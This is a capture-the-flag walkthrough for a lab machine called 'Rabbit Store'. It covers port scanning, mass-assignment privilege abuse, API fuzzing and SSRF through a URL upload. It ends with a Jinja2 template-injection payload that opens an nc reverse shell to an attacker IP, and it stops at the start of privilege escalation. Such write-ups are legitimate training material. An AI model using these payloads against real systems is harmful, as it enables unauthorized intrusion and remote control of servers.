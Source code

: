 # Rabbit Store





## Port Scanning

```bash
nmap -T4 -A -p 22,80,4369,25672 --min-rate 1000 10.10.11.161 -oN port_scan.txt -Pn

Nmap scan report for 10.10.11.161
Host is up (0.037s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3f:da:55:0b:b3:a9:3b:09:5f:b1:db:53:5e:0b:ef:e2 (ECDSA)
|_  256 b7:d3:2e:a7:08:91:66:6b:30:d2:0c:f7:90:cf:9a:f4 (ED25519)
80/tcp    open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://cloudsite.thm/
|_http-server-header: Apache/2.4.52 (Ubuntu)
4369/tcp  open  epmd    Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 25672
25672/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```



## Web Enumeration

### Creation of a privilege account abuse.

The login botton link in a subdomain with a login page.

<figure><img src="../../../.gitbook/assets/image (300).png" alt=""><figcaption></figcaption></figure>

We can make a Sign In but our account won't be able to do anything.

<figure><img src="../../../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

If we analyse the request with Burp Proxy, we can get the field inserts to the JWT token, the allow us or not to make access to other actions in the site.

<figure><img src="../../../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

Trying to register another account with Burp Suite Repeater and add the filed `subscription`.

<figure><img src="../../../.gitbook/assets/image (303).png" alt="" width="375"><figcaption></figcaption></figure>

In this way when we created the new user, the backend will not set the default value for subscrition but will set the value that we pass in the request.

Now we able to make actions in the site.

<figure><img src="../../../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>



### API Fuzzing

{% code overflow="wrap" %}
```bash
wfuzz -c -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt --hc 404 'http://storage.cloudsite.thm/api/FUZZ'

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000025:   405        0 L      4 W        36 Ch       "register"                                                                                                                                                                 
000000009:   405        0 L      4 W        36 Ch       "login"                                                                                                                                                                    
000000123:   403        0 L      2 W        27 Ch       "docs"                                                                                                                                                                     
000000112:   401        0 L      3 W        32 Ch       "uploads" 
```
{% endcode %}



## File Upload&#x20;

If we can't execute a reverse shell via file upload, we need another approach. Notably, the URL file upload mechanism demands a URL for execution. We can leverage an SSRF vulnerability to access the `/api/docs` file, which may reveal API documentation and available routes for further exploration.

Upload a file from URL with this payload:

```
"url":"http://localhost:3000/api/docs"
```

<figure><img src="../../../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

We have created the file. Now copy the UUID of the file created and get the content of the file.

<figure><img src="../../../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

The `/api/fetch_messeges_from_chatbot` is a new route. Now try to understant it.

First things first, run the request with a random json (empty json or another request's json)

<figure><img src="../../../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>



### SSTI vulnerability - Jinja2

Test for SSTI vulnerability.

<figure><img src="../../../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>

The web site is vulnerable to SSFI.

Try to upload a payload to execute an arbitrary command.

<figure><img src="../../../.gitbook/assets/image (311).png" alt=""><figcaption></figcaption></figure>



Spawn a reverse shell with this payload

{% code overflow="wrap" %}
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.23.52.142 9009 >/tmp/f').read() }}
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (313).png" alt=""><figcaption></figcaption></figure>

Now we can print the user flag

```bash
cat /home/azrael/user.txt
```

## Privilege Escalation

After enumerating the machine with Linpeas, we didn't find anything.

The server has another hosted:

```bash
4369/tcp  open  epmd    Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 25672
```

Enumerate users

{% embed url="https://www.rabbitmq.com/docs/access-control#overview" %}
